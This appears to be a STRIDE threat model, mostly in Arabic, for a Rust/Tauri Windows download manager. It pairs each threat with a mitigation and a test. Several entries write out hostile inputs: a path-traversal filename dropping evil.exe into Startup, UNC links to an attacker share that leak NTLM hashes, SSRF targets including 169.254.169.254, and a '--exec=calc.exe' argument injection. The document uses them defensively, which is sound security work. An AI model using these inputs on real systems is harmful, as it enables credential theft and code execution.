

# 🛡️ Vortex Download Manager — نموذج التهديدات الأمني (Threat Model — Microsoft SDL STRIDE)

> **الإصدار:** `1.3 (Synchronized with Phase 1.6 Verified ✅ & Phase 1.7 Zero-Overhead Throughput Hardening)` — **المنهجية:** Microsoft Security Development Lifecycle (SDL) + STRIDE + Defense in Depth + Principle of Least Privilege.
> **مبدأ أساسي:** مدير التحميل يتعامل يومياً مع **مدخلات غير موثوقة 100%** (صفحات ويب، خوادم إنترنت، سجلات DNS، رؤوس HTTP، أسماء ملفات، أرشيفات، وإضافات). نفترض أن أي خادم أو صفحة ويب أو عملية محلية غير موثوقة قد تكون خبيثة.
> **المواصفات الأمنية التكميلية:** [Smart-Capture-And-Anti-Abuse-Spec.md](./Smart-Capture-And-Anti-Abuse-Spec.md) (`TH-20` → `TH-25`) · [Cybersecurity-Layers-And-Misuse-Prevention-Spec.md](./Cybersecurity-Layers-And-Misuse-Prevention-Spec.md) (`TH-26` → `TH-33`) · [Ultra-High-Throughput-Engine-Spec.md](./Ultra-High-Throughput-Engine-Spec.md) (§2.6 Zero-Overhead Security).

---

## 1. الأصول المحمية (Protected Assets)

| المعرّف | الأصل (Asset) | أثر اختراقه |
|---|---|---|
| **A1** | نظام ملفات المستخدم (خصوصاً مجلدات النظام والتشغيل التلقائي) | تنفيذ كود خبيث / السيطرة على الجهاز (RCE / EoP). |
| **A2** | كوكيز الجلسات وبيانات المصادقة (Cookies, Authorization, Proxy Creds) | اختطاف حسابات المستخدم على المواقع. |
| **A3** | سلامة الملفات المحمّلة وتحديثات البرنامج (Integrity) | استبدال برنامج شرعي ببرمجية خبيثة (Supply-Chain / MITM). |
| **A4** | خصوصية المستخدم (سجل التحميلات، الروابط، الحافظة، المسارات) | كشف بيانات حساسة (Information Disclosure). |
| **A5** | توافر الجهاز واستقراره (RAM، القرص، المعالج، الشبكة) | تعطيل الجهاز أو ملء القرص (DoS). |

---

## 2. حدود الثقة وتدفق البيانات (Trust Boundaries & DFD)

---

## 3. مصفوفة التهديدات الكاملة (STRIDE Threat Matrix)

| ID | التصنيف | الحد | سيناريو الهجوم | الخطورة | الضابط الأمني (Mitigation) | التحقق الآلي (Security Test) |
|---|---|---|---|---|---|---|
| **TH-01** | **E**oP / **T**ampering | TB5→TB7 | **Path Traversal:** خادم خبيث يرسل `Content-Disposition: filename="../../AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/evil.exe"` | 🔴 حرج | `FilenameSanitizer` يجرّد أي فواصل مسار (`/` و`\`) و`..` ويأخذ الـ Basename فقط + التحقق من `canonical_parent == save_dir` قبل الإنشاء. | Unit + `proptest` + Fuzzing (`cargo-fuzz`) لـ `FilenameSanitizer` و`Content-Disposition`. |
| **TH-02** | **D**oS / **E**oP | TB5→TB7 | **Windows Reserved Names:** اسم ملف `CON.txt` أو `NUL` أو `COM1` أو نقاط/مسافات نهائية تسبب سلوكاً شاذاً في Win32. | 🟠 عالٍ | إعادة تسمية آلية للأسماء المحجوزة (`_CON.txt`) + استخدام بادئة `\\?\` عند المسارات الطويلة. | Unit test matrix لجميع أسماء Windows المحجوزة. |
| **TH-03** | **I**nfo / **E**oP | TB2→TB5 | **UNC Path / NTLM Hash Leak:** رابط `file:////attacker/share/a.exe` أو `\\attacker\share\a` يجبر Windows على إرسال NTLM Hash للمهاجم. | 🔴 حرج | Allowlist صارم للبروتوكولات (`http`, `https` فقط افتراضياً) في الإضافة والـ IPC والـ Domain معاً (Defense in Depth). | Unit + IPC validation test ترفض `file://`, `smb://`, `\\server`, `javascript:`. |
| **TH-04** | **S**poofing / **I**nfo | TB5 | **SSRF via Redirect:** موقع خبيث على الإنترنت يحوّل (302) تحميل Vortex إلى `http://127.0.0.1:8080/admin` أو `http://169.254.169.254/latest/meta-data` (مع كوكيز). | 🔴 حرج | فحص الـ IP المحلول بعد DNS (لمنع DNS Rebinding): منع التحويل التلقائي من IP عام إلى Loopback / Link-Local / Private RFC1918 وطلب تأكيد صريح من المستخدم، مع **حذف الكوكيز و`Authorization` عند تغيير الأصل (Cross-Origin Redirect)**! | Integration test على `test-lab` يحاكي Redirect إلى `127.0.0.1` + تحقق من تجريد `Cookie`/`Authorization` عبر الأصول. |
| **TH-05** | **S**poofing | TB2→TB3 | **Local IPC Hijacking:** موقع ويب أو إضافة خبيثة أو مستخدم آخر على نفس الجهاز يحاول إرسال أوامر تحميل لـ Vortex. | 🔴 حرج | 1) صفر منافذ TCP محلية. 2) `allowed_origins` مقيّد بمعرّف إضافة Vortex الرسمي فقط. 3) Named Pipe بـ Windows DACL للمستخدم الحالي (`Owner SID`) + `PIPE_REJECT_REMOTE_CLIENTS`. | اختبار فحص SDDL على Windows + فحص `netstat` يثبت صفر منافذ مستمعة. |
| **TH-06** | **T**ampering | TB6 | **Update Hijacking (MITM / Compromised Mirror):** مهاجم يعدّل ملف التحديث في الطريق أو يخترق مرآة الاستضافة. | 🔴 حرج | توقيع **Ed25519** إلزامي لكل ملف تحديث بمفتاح عام مدمج (Pinned) داخل `vortex.exe` + HTTPS فقط (TLS 1.2/1.3). | اختبار يثبت رفض تحديث بتوقيع خاطئ أو معدل ببايت واحد. |
| **TH-07** | **T**ampering / **E**oP | TB7 | **تجاوز Windows SmartScreen / AV:** ملف خبيث محمّل بـ Vortex يُشغّل دون فحص Defender لأن التحميل لم يتم من المتصفح. | 🔴 حرج | كتابة Alternate Data Stream `:Zone.Identifier` (`ZoneId=3` — Mark-of-the-Web) + استدعاء `IAttachmentExecute::Save()` لتشغيل فحص مضاد الفيروسات تلقائياً. | اختبار Windows يتحقق من وجود `:Zone.Identifier` على الملف المكتمل. |
| **TH-08** | **I**nfo | TB3→DB | **تسرب الأسرار في السجلات أو قاعدة البيانات أو التقارير:** ظهور كوكيز الجلسات أو التوكنز أو كلمات المرور في `core.jsonl` أو SQLite أو حزمة التشخيص. | 🔴 حرج | تشفير الأسرار عبر **Windows DPAPI / Keyring**، استخدام `secrecy::SecretString` + `zeroize` في RAM، ومغلّف `RedactedUrl` في كل Log. | **Zero-Leakage CI Test** الإلزامي يفحص JSONL وFlight Recorder وحزمة التشخيص. |
| **TH-09** | **I**nfo | OS→Core | **تسريب كلمات المرور من مراقب الحافظة:** المستخدم ينسخ كلمة سر من 1Password/Bitwarden/KeePass فيقرأها أو يسجلها Vortex. | 🟠 عالٍ | التحقق من صيغ الاستثناء القياسية في Windows Clipboard (`ExcludeClipboardContentFromMonitorProcessing`, `CanIncludeInClipboardHistory`) قبل قراءة النص، وعدم تسجيل محتوى الحافظة أبداً. | اختبار Windows Clipboard بصيغ الاستثناء. |
| **TH-10** | **T**ampering | TB5 | **تسميم الملف أثناء الاستكمال (Mixed-Version File):** تغيّر الملف على الخادم أو استجابة كاذبة `Content-Range` تنتج ملفاً تالفاً/ملغماً. | 🟠 عالٍ | خوارزمية `If-Range` المتوافقة مع RFC 9110 (تجنب Weak ETag `W/` واستخدام `Last-Modified` القوي أو التحقق اليدوي) + التحقق الصارم من مطابقة `Content-Range` + فحص أول 64 KiB عند Link Refresh + التحقق من الهاش (`SHA-256`/`BLAKE3`/`Repr-Digest`). | Integration tests على `test-lab` (تغيّر ETag + Weak ETag + `Content-Range` مزور). |
| **TH-11** | **E**oP / **D**oS | TB7 (v1.x) | **Zip Slip & Decompression Bomb:** أرشيف محمّل يحتوي `../../evil.dll` أو Symlink أو 10KB تنفجر إلى 100GB عند فك الضغط التلقائي. | 🔴 حرج | رفض المسارات الهاربة والـ Symlinks، ووضع حدود صارمة: حد حجم مفكوك، حد نسبة ضغط (مثلاً 100:1)، وحد عدد ملفات. | اختبارات أرشيفات خبيثة مصممة خصيصاً في CI. |
| **TH-12** | **T**ampering / **E**oP | TB4 | **XSS / RCE في WebView2:** اسم ملف خبيث `` ينفّذ JS داخل نافذة Tauri ويصل لصلاحيات النظام. | 🔴 حرج | 1) React يهرب كل النصوص تلقائياً (ممنوع `dangerouslySetInnerHTML`). 2) CSP صارم (`default-src 'self'; script-src 'self'`). 3) Tauri Capabilities بأدنى صلاحيات (لا `shell:allow-execute` عام). | اختبار أسماء ملفات تحتوي حمولات XSS + فحص CSP في CI. |
| **TH-13** | **T**ampering | TB1 | **صفحة ويب تعبث بزر الفيديو العائم (Clickjacking / CSS Injection):** صفحة خبيثة تقرأ أو تغيّر زر Vortex. | 🟡 متوسط | عزل تام داخل **Closed Shadow DOM** + عدم الثقة بأي حدث DOM مزيّف (`event.isTrusted`). | اختبار E2E على صفحة معادية تحاول تعديل الـ DOM. |
| **TH-14** | **D**oS | TB2/TB3/TB5 | **استنفاد الذاكرة أو القرص (Memory/Disk Exhaustion):** خادم يرسل بيانات بلا نهاية أو حجم ضخم مزيف، أو حجز ملفات Sparse متعددة تتجاوز سعة القرص الفعلية. | 🟠 عالٍ | قنوات Bounded MPSC، حدود حجم إطارات IPC (4 MiB)، **`VolumeSpaceManager`** لحجز المساحة المنطقي للـ Sparse Files + مراقب مساحة القرص (توقف عند 256 MB)، وحدود الـ Headers وRedirects (≤ 10). | اختبارات الضغط + Fuzzing + اختبار 3 تحميلات Sparse متزامنة على قرص محدود المساحة. |
| **TH-15** | **E**oP / **D**oS | TB8 (v1.x) | **إضافة WASM خبيثة (Malicious Plugin):** تحاول قراءة ملفات المستخدم أو سرقة بيانات لشبكة خارجية أو تجميد المعالج بحلقة لا نهائية. | 🔴 حرج | `wasmtime` Sandbox بلا وصول مباشر للنظام، صلاحيات Capability-based للنطاقات المصرح بها فقط، وحدود **Fuel (CPU)** و**Memory Cap** وTimeout. | اختبار Plugin WASM خبيث يثبت الحجب التلقائي لكل محاولة. |
| **TH-16** | **T**ampering | Build | **هجوم سلسلة التوريد (Supply-Chain Attack):** مكتبة Rust/npm مخترقة أو بناء غير موثوق. | 🔴 حرج | Lockfiles مثبتة، `cargo-audit` + `cargo-deny` + `pnpm audit`، مراجعة أي اعتمادية جديدة، **SLSA Level 3 Provenance**، و**SBOM (CycloneDX)**، وتوقيع الكود. | CI Security workflow في كل PR وRelease. |
| **TH-17** | **D**oS / **I**nfo | TB5 | **TLS Downgrade / Certificate Spoofing:** خادم بشهادة مزورة أو بروتوكول قديم. | 🔴 حرج | `rustls` (TLS 1.2/1.3 فقط، صفر TLS 1.0/1.1) مع `rustls-platform-verifier`. لا تجاوز صامت أبداً لأخطاء الشهادات (`VTX-NET-003`). | اختبار شهادة ذاتية التوقيع يثبت الرفض الفوري. |
| **TH-18** | **R**epudiation | All | **صعوبة تتبع مصدر تغيير أو خطأ حرج.** | 🟡 متوسط | سجل تدقيق محلي `download_events` في SQLite + سجلات JSONL منظمة مع `trace_id` (بدون أي أسرار). | اختبارات Audit Log وTrace Correlation. |
| **TH-19** | **E**oP / **T**ampering | TB3→OS (v1.0) | **حقن أوامر أو وسائط في العمليات الجانبية (`yt-dlp` / `ffmpeg` Argument Injection):** رابط فيديو أو عنوان خبيث يبدأ بـ `--exec` لتنفيذ كود على الجهاز! | 🔴 حرج | 1) استدعاء مباشر `std::process::Command` (**ممنوع `cmd.exe /c` أو أي Shell**). 2) تمرير `--no-exec --no-config-locations --ignore-config` دائماً لـ `yt-dlp`، وفاصل `--` قبل أي رابط أو مسار ملف. 3) تحقق مزدوج (**توقيع `Ed25519` للمانيفست + بصمة `SHA-256`**) لملفات `yt-dlp.exe` و`ffmpeg.exe` قبل التثبيت والتحديث والتشغيل! | اختبار أمني يمرر روابط تبدأ بـ `--exec=calc.exe` ويثبت عدم تنفيذ أي أمر. |
| **TH-20** | **D**oS / **S**poofing | TB1→TB4 (P1.5 ✅) | **عاصفة إعلانات منبثقة وسرقة التركيز (`Ad-Burst Storm & Focus-Stealing Clickjacking`):** صفحة إعلانية تطلق عشرات طلبات التحميل في ثانية واحدة لدفع المستخدم للضغط على `Enter` بالخطأ أو استنزاف الذاكرة. | 🟠 عالٍ | سقف صارم للدفعات المعلقة في الذاكرة (`MAX_STAGED_PROBES = 8`) + نافذة حجر عواصف `4s` تجمع الطلبات المتلاحقة بشريط مراجعة موحد مع زر **[رفض الكل]** + قفل حماية النقرة **`350ms Input Grace Lock`** عند ظهور النافذة. | اختبارات `Burst Quarantine` وسقف الـ `8` دفعات + فحص تعطيل زر التأكيد خلال أول `350ms`. |
| **TH-21** | **S**poofing / **E**oP | TB5→TB4 (P1.5 ✅) | **تنكّر البرمجيات الخبيثة وصفحات الـ HTML الخادعة (`Executable & HTML-Trap Masquerade`):** خادم يرسل ملف `.exe` ببصمة `MZ` أو صفحة إعلانية `<!DOCTYPE html>` تحت اسم `movie.mp4` أو امتداد مزدوج `video.mp4.exe`. | 🔴 حرج | فحص أول `512` بايت في الذاكرة بدون استهلاك الدفق (`PrependByteStream` + `ContentSecurityInspector`) لمطابقة البصمة السحرية مع الامتداد، ومنع البدء التلقائي الصامت وتعطيل `Enter` السريع لأي ملف تنفيذي أو متنكّر. | اختبارات وحدة وتكامل لـ `ContentSecurityInspector` و`PrependByteStream` مع تطابق `SHA-256` الكامل. |
| **TH-22** | **S**poofing | TB1→TB5 (P1.5 ✅) | **التحويل الإعلاني العابر للنطاقات (`Cross-Origin Ad Redirect Deception`):** المستخدم ينقر في موقع موثوق فيحوّله إعلان صامت إلى خادم برمجيات مشبوه مختلف تماماً. | 🟠 عالٍ | مقارنة `referrer_host` مع `origin_host` النهائي وإبراز شريط تنبيه مصدر واضح في نافذة التأكيد + زر **[حظر هذا الموقع دائماً]** الذي يدفع `excluded_hosts` حياً للإضافة. | اختبارات مقارنة الأصول وحظر النطاق الفوري عبر `settings.changed`. |
| **TH-23** | **E**oP | TB4→OS (P1.5 ✅) | **التشغيل الخاطئ لملف تنفيذي محمّل من جدول التحميلات (`Accidental Post-Download Execution`).** | 🟠 عالٍ | جعل الإجراء الأساسي للملفات التنفيذية هو **[عرض في المجلد]** (`SHOpenFolderAndSelectItems`) مع اشتراط تأكيد صريح والمرور حصراً عبر `ShellExecuteW` لتفعيل فحص Windows SmartScreen و`:Zone.Identifier`. | اختبارات سياسة الفتح الآمن في `vortex-platform` والواجهة. |
| **TH-24** | **D**oS | TB3→TB4 (P1.5 ✅) | **سباق فقدان نافذة التأكيد عند استيقاظ `WebView2` البارد من الـ Tray (`Cold-Boot Event Race`).** | 🟡 متوسط | طابور تأكيد يعتمد السحب المتماثل (`Pull-Based StagedQueue` عبر `cmd_list_staged_downloads`) وترتيب رتيب (`AtomicU64`) + نافذة Tray مدمجة مستقلة (`?mode=confirm`). | اختبار E2E على Brave لاستلام وعرض وطرد الدفعات المعلقة بلا فقدان. |
| **TH-25** | **I**nfo / **D**oS | TB3 (P1.5 ✅) | **بقاء مقابس وكوكيز التحميلات المرفوضة معلقة في الذاكرة.** | 🟡 متوسط | أمر `cmd_discard_staged_download` يغلق مقبس الشبكة ويحرر مخزن `16 MiB` ويُصفّر الكوكيز (`zeroize`) في `0ms` فور الضغط على `Esc` أو `تجاهل`. | اختبار تحرير الموارد الفوري عند التجاهل. |
| **TH-26** | **S**poofing / **I**nfo | TB5 (P1.6 ✅) | **هجوم `DNS Rebinding (TOCTOU)` أو `SSRF` المباشر على مستوى المقبس:** نطاق خبيث يرد بـ IP عام أثناء `probe` ثم يرد بـ `127.0.0.1` أو `169.254.169.254` عند فتح اتصالات `open_range` الإضافية! | 🔴 حرج | فحص عناوين الـ IP المحلولة **داخل `TransportPool` قبل كل `TcpStream::connect` بدون استثناء** (بما فيها كل IP في `Multi-IP Striping` بـ `Phase 1.7`، مع `allow_private_network: false` افتراضياً في الإنتاج)، ومنع انتقال أي تحميل بدأ على IP عام إلى IP خاص/محلي في اتصالاته اللاحقة. | اختبارات تكامل تحاكي `DNS Rebinding` بين `probe` و`open_range` وروابط `169.254.169.254` المباشرة. |
| **TH-27** | **D**oS / **T**ampering | TB5→TB7 (P1.6 ✅) | **قنبلة الترويسات أو ضخ بايتات تتجاوز المدى المطلوب (`Header Bomb & Stream Over-Delivery`):** خادم خبيث يرسل ترويسات بمئات الميجابايت أو يضخ تيّاراً لا نهائياً على طلب `Range` محدود لإفساد الأجزاء المجاورة أو ملء القرص. | 🟠 عالٍ | سقف صارم لمجموع الترويسات (`≤ 64 KiB` / `≤ 100` ترويسة + `max_header_list_size(64 KiB)` في HTTP/2) مفصول عن مخزن قراءة البيانات (`256–512 KiB` في `Phase 1.7`) + مغلّف `HyperBodyStream` يقطع التدفق فوراً عند حد العقد المطلوب ويرفض أي تجاوز لـ `Content-Length`. | اختبارات `test-lab` لترويسات `> 64 KiB` / `> 100` ترويسة وتدفق يتجاوز مدى `Range`. |
| **TH-28** | **I**nfo / **S**poofing | DB→TB5 (P1.6 ✅) | **إعادة إرسال الكوكيز المحفوظة لأصل مختلف عند الاستئناف أو التعديل (`Cross-Origin Credential Replay`).** | 🔴 حرج | ربط الأسرار المخزنة في DPAPI بزوج **`(DownloadId, OriginKey)`** (`Origin-Pinned Secret Vault`) والتحقق من تطابق الأصل المسجّل قبل فك التشفير وحقن الترويسات في أي طلب. | اختبار وحدة وتكامل يثبت عدم استرجاع الكوكيز عند اختلاف الأصل. |
| **TH-29** | **E**oP / **T**ampering | TB7 (P1.6 ✅) | **هجوم سباق الروابط الرمزية ونقاط وصل NTFS (`TOCTOU Symlink / Directory Junction Attack`):** زرع Symlink أو Junction مكان `.vortex` للكتابة فوق ملفات حساسة في حساب المستخدم أو استبدال ملف موجود بالخداع. | 🔴 حرج | فتح ملفات `.vortex` و`.vortex.meta` مع رفض نقاط إعادة التحليل (`FILE_FLAG_OPEN_REPARSE_POINT` + التحقق من المسار النهائي عبر `GetFinalPathNameByHandleW` — متوافق مع `FILE_FLAG_OVERLAPPED` في `Phase 1.7`) وتنفيذ التسمية الذرية بدون `MOVEFILE_REPLACE_EXISTING` ما لم يختر المستخدم الاستبدال صراحةً. | اختبار أمني على Windows يزرع Symlink/Junction مكان `.vortex` ويثبت الرفض الفوري بكود `VTX-SEC-001`. |
| **TH-30** | **S**poofing / **E**oP | TB5→TB4 (P1.6 ✅) | **تمويه الأسماء بمحارف `RTLO` وحاويات الاختراق الحديثة (`.lnk`, `ClickOnce`, `.chm`, `.svg` مع `<script>`):** جعل `evil_fdp.exe` يظهر بصرياً `evil_exe.pdf` أو تمرير اختصار Windows مسلّح بدون تحذير. | 🔴 حرج | تطهير كافة محارف التحكم الاتجاهي (`U+202A..U+202E`, `U+2066..U+2069`) والمحارف الصفرية في `FilenameSanitizer` مع رفع تحذير أمني حرج، وتوسيع `ContentSecurityInspector` لكشف بصمات `.lnk` و`.chm` و`ClickOnce` و`.hta` وسكربتات `.svg`. | مصفوفة اختبارات `RTLO` وبصمات `.lnk` و`.chm` و`.svg` الملغمة. |
| **TH-31** | **I**nfo | DB / FS (P1.6 ✅) | **قراءة مستخدم محلي آخر لقاعدة البيانات أو تسرب توكنات الروابط عبر ملف `.vortex.meta` أو بقاء دفعات منتهية في الذاكرة.** | 🟠 عالٍ | 1) فرض صلاحيات NTFS (`Owner SID` فقط) على `%LOCALAPPDATA%\Vortex`. 2) خلو `.vortex.meta` تماماً من الكوكيز والمعاملات السرية. 3) حاصد دوري كل `15s` يغلق ويصفّر `staged_probes` المنتهية (`> 120s`). | اختبارات فحص ACL ونظافة `.vortex.meta` وحاصد الـ TTL. |
| **TH-32** | **D**oS | TB3 (P1.6 ✅) | **إغراق أنبوب الاتصال المحلي بالاتصالات أو الرسائل (`Local IPC Pipe Connection / Frame Flood`).** | 🟠 عالٍ | سقف `MAX_CONCURRENT_PIPE_CLIENTS = 16` + مهلة مصافحة `2.0s` لـ `HelloRequest` + محدد معدل `TokenBucket` (`100 msg/s`, `burst 40`) لكل عميل (`VTX-IPC-004`). | اختبار ضغط يفتح `> 16` عميلاً ويرسل `> 100` رسالة/ثانية ويثبت الحجب النظيف. |
| **TH-33** | **T**ampering / **E**oP | TB4 / TB2 (P1.6 ✅) | **اختطاف تصفح نافذة `WebView2` عبر السحب والإفلات أو انتحال مرسل رسائل داخل الإضافة.** | 🟠 عالٍ | حارس `on_navigation` صارم على نافذتي `main` و`confirm` يسمح فقط بـ `tauri.localhost`، وتعطيل `DevTools` والإكمال التلقائي في نسخ `Release`، والتحقق من `sender.id === chrome.runtime.id` وأصل صفحات الإضافة (`chrome-extension://<id>/`) في خلفية الإضافة. | اختبارات منع التصفح الخارجي في `WebView2` وفحص هوية المرسل في الإضافة. |

---

## 4. المعايير التشفيرية المعتمدة (Cryptographic Standards)

| الاستخدام | الخوارزمية / المكتبة | الممنوع |
|---|---|---|
| النقل الشبكي (HTTPS) | **TLS 1.2 / 1.3** عبر `rustls` (مزود التشفير الآمن `ring` + `rustls-platform-verifier` + `ALPN: ["h2", "http/1.1"]` في `Phase 1.7` وتذاكر استئناف TLS 1.3) | SSLv3, TLS 1.0/1.1, OpenSSL C |
| توقيع التحديثات | **Ed25519** (مفتاح عام مثبّت داخل الـ Binary) | RSA-1024, SHA-1 signatures |
| التحقق الداخلي من سلامة الملفات | **BLAKE3** و**SHA-256** | الاعتماد على MD5/SHA-1 كضمان أمني (تُدعم فقط للتوافق مع مواقع قديمة مع توضيح ذلك) |
| تشفير الأسرار المحلية | **Windows DPAPI** / macOS Keychain / Linux Secret Service | تشفير يدوي بمفتاح ثابت أو Base64 |
| مسح الأسرار من الذاكرة | **`secrecy`** + **`zeroize`** | `String` عادية للكوكيز وكلمات المرور |
| المولّد العشوائي | `getrandom` / OS CSPRNG | `rand::SmallRng` لأي غرض أمني |

---

## 5. الإفصاح الأمني والاستجابة (Vulnerability Disclosure Policy)

- يُوثَّق في `SECURITY.md` بالصفحة الرئيسية للمستودع قناة إبلاغ خاصة (GitHub Private Vulnerability Reporting).
- **أهداف الاستجابة (SLAs):** تأكيد الاستلام خلال **48 ساعة**، تقييم الخطورة (CVSS) خلال **5 أيام**، وإصدار تحديث أمني موقّع للثغرات الحرجة خلال **≤ 7 أيام** عبر قناة التحديث التلقائي.
- **حظر كسر DRM:** التزام صريح ودائم بعدم قبول أي كود أو Plugin يكسر حماية DRM أو يتجاوز CAPTCHA.
